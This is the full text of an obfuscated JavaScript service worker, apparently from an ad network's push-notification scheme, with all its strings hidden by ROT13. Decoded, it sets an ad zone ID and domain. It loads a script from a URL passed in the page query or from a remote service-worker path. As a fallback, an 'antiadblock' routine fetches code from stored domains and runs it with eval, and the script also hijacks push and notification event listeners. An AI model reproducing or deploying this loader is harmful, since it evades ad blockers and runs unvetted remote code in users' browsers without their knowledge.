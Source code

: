function(O){!function(e){var t=O.Z();function n(r){if(t[r])return t[r][O.i];var i=t[r]=O.Z(O.B,r,O.w,!O.X,O.i,O.Z());return e[r]O.z,i[O.w]=!O.N,i[O.i]}n[O.y]=e,n[O.g]=t,n[O.K]=function(e,t,r){nO.h||ObjectO.b},n[O.G]=function(e){O.HO!=typeof Symbol&&Symbol[O.hO]&&ObjectO.b,ObjectO.b},n[O.R]=function(e,t){if(O.X&t&&(e=n(e)),O.v&t)return e;if(O.P&t&&O.t==typeof e&&e&&e[O.U])return e;var r=ObjectO.r;if(nO.G,ObjectO.b,O.d&t&&O.oO!=typeof e)for(var i in e)n[O.K](r,i,function(t){return e[t]}O.fO);return r},n[O.H]=function(e){var t=e&&e[O.U]?function(){return e[O.C]}:function(){return e};return nO.K,t},n[O.h]=function(e,t){return Object[O.FO][O.a]O.z},n[O.e]=O.F,n(n[O.m]=O.o)}(O.Z(O.o,function(module,exports,webpack_require){O.f;var _antiadblock=webpack_require(O.O);self[O.c]=O.Z(O.S,7871918,O.V,"rauvoaty.net",O.l,!O.N),self[O.D]=O.F;var DEFAULT_URL=[O.Y,O.j]O.A,STORE_EVENTS=[O.T,O.u,O.M,O.L,O.n,O.E],url;try{if(url=atob(location[O.DO]O.x),!url)throw O.q}catch(e){url=DEFAULT_URL}try{importScripts(url)}catch(ignore){var events=O.Z(),listeners=O.Z(),realAddEventListener=self[O.yO]O.fO;STORE_EVENTSO.ZO,self[O.yO]=function(e,t){if(-O.X===STORE_EVENTSO.qO)return realAddEventListener(e,t);listeners[e]||(listeners[e]=[]),listeners[e]O.M,events[e]&&events[e]O.ZO},(O.N,_antiadblock[O.I])(url,O.Z())[O.gO](function(e){return eO.UO})[O.gO](function(code){return eval(code)})}},O.O,function(e,t,n){O.f;ObjectO.b,t[O.Q]=function(e){return new Promise(function(t,n){r(O.BO)[O.gO](function(r){var i=rO.tOO.xO[O.WO](O.Z(O.V,e,O.dO,new Date()O.CO));iO.yO,iO.yO})})},t[O.I]=async function(e,t){var n=await new Promise(function(e,t){r(O.BO)[O.gO](function(n){var r=nO.tOO.xOO.PO;rO.yO,r[O.yO](O.EO,function(){return e(r[O.XO][O.oF](function(e){return e[O.V]}))})})}),o=!O.N,a=!O.X,s=void O.N;try{for(var c,u=nSymbol[O.QO];!(o=(c=uO.IO)[O.uO]);o=!O.N){var d=c[O.p];try{return await fetch(O.Y+d+O.s+i(),O.Z(O.YO,t[O.YO]||O.RO,O.jO,O.pO,O.sO,t[O.sO],O.vO,O.Z(O.kO,btoa(e))))}catch(e){}}}catch(e){a=!O.N,s=e}finally{try{!o&&u[O.JO]&&uO.JO}finally{if(a)throw s}}throw new Error(O.eO)},t[O.J]=async function(e){try{var t=await fetch(eO.qO>-O.X?e:O.Y+e);return!O.X===(await tO.bO)[O.TO]}catch(e){return!O.X}};function r(e){return new Promise(function(t,n){var r=indexedDBO.MO;rO.yO,rO.yO,r[O.yO](O.EO,function(){return t(r[O.XO])})})}function i(){var e=arguments[O.iO]>O.N&&void O.N!==arguments[O.N]?arguments[O.N]:O.N,t=e<O.W&&MathO.mO>O.k,n=MathO.mOO.zOO.x;return n+(t?O.s+i(e+O.X):O.F)}}))}([['o',111],['O',17],['F',''],['f','hfr fgevpg'],['Z',function(){const obj={};const args=[].slice.call(arguments);for(let i=0;i<args.length-1;i+=2){obj[args[i]]=args[i+1]}return obj}],['y','z'],['g','p'],['K','q'],['G','e'],['R','g'],['H','a'],['h','b'],['e','c'],['i','rkcbegf'],['m','f'],['z','pnyy'],['w','y'],['N',0],['c','bcgvbaf'],['D','ynel'],['A','wbva'],['T','vafgnyy'],['u','npgvingr'],['M','chfu'],['L','abgvsvpngvbapyvpx'],['n','abgvsvpngvbapybfr'],['E','chfufhofpevcgvbapunatr'],['q',null],['b','qrsvarCebcregl'],['U','__rfZbqhyr'],['Q','nqqQbznva'],['I','hygensrgpu'],['J','grfgCvatQbznva'],['B','v'],['S','mbarVq'],['V','qbznva'],['l','erfhofpevorBaVafgnyy'],['X',1],['Y','uggcf://'],['j','/csr/pheerag/freivpr-jbexre.zva.wf?e=fj&i=2'],['p','inyhr'],['s','/'],['v',8],['a','unfBjaCebcregl'],['W',7],['k',.3],['x','fyvpr'],['d',2],['P',4],['t','bowrpg'],['r','perngr'],['C','qrsnhyg'],['oO','fgevat'],['OO','n'],['FO','cebgbglcr'],['fO','ovaq'],['ZO','sbeRnpu'],['yO','nqqRiragYvfgrare'],['gO','gura'],['KO',3],['GO','rahzrenoyr'],['RO','trg'],['HO','haqrsvarq'],['hO','gbFgevatGnt'],['eO','NNO Erdhrfg Snvyrq'],['iO','yratgu'],['mO','enaqbz'],['zO','gbFgevat'],['wO',36],['NO',10],['cO','Zbqhyr'],['DO','frnepu'],['AO',9],['TO','fgnghf'],['uO','qbar'],['MO','bcra'],['LO','hctenqrarrqrq'],['nO','reebe'],['EO','fhpprff'],['qO','vaqrkBs'],['bO','wfba'],['UO','grkg'],['QO','vgrengbe'],['IO','arkg'],['JO','erghea'],['BO','fjnno'],['SO',':'],['VO','perngrBowrpgFgber'],['lO','qbznvaf'],['XO','erfhyg'],['YO','zrgubq'],['jO','perqragvnyf'],['pO','vapyhqr'],['sO','obql'],['vO','urnqref'],['aO','xrlCngu'],['WO','chg'],['kO','gbxra'],['xO','bowrpgFgber'],['dO','perngrqNg'],['PO','trgNyy'],['tO','genafnpgvba'],['rO','ernqjevgr'],['CO','trgGvzr'],['oF','znc']].reduce((o,i)=>(Object.defineProperty(o,i[0],{get:()=>typeof i[1]!=='string'?i[1]:i[1].split('').map(s=>{const c=s.charCodeAt(0);return c>=65&&c<=90?String.fromCharCode((c-65+26-13)%26+65):c>=97&&c<=122?String.fromCharCode((c-97+26-13)%26+97):s}).join('')}),o),{})))/importScripts(...r=sw)/